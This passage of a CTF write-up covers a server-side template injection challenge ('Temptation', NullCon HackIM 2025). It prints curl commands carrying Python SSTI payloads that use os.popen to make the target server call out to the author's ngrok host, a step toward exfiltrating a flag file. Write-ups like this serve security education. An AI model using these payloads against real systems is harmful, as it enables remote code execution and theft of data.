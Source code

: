 ## 🔬 Vulnerability Analysis
### Potential Vulnerabilities
>- [x] SSTI (Server Side Template Injection)

# 🎯 Solution Path

## Exploitation Steps
### Initial setup
> My idea was to redirect the contents of `/tmp/flag.txt` to my own web server by sending the flag in a request parameter. So the first thing I did was start a web server:
> ```bash
> ngrok http 8080
> ``` 
> Once I started the web server, I first tried with a local request by directing `curl` to my own server, exploiting the SSTI vulnerability.
>
>```bash
> curl -X POST "http://0.0.0.0:8080/" --data-urlencode "temptation=\${__import__('os').popen('curl https://c590-2-37-206-147.ngrok-free.app').read()}"
>```
>![Curl 4](/images/NullCon-Goa-HackIM-CTF-2025/Temptation/curl4.png "Curl 4")
> 
> As we can see, the request arrives on ngrok. Now, it needs to be tested if the same happens when performing this process on the challenge server, not locally (since `curl` needs to be installed on the web server to make requests).
> 
> ```bash
> curl -X POST "http://52.59.124.14:5011/" --data-urlencode "temptation=\${__import__('os').popen('curl https://c590-2-37-206-147.ngrok-free.app').read()}"
>``` 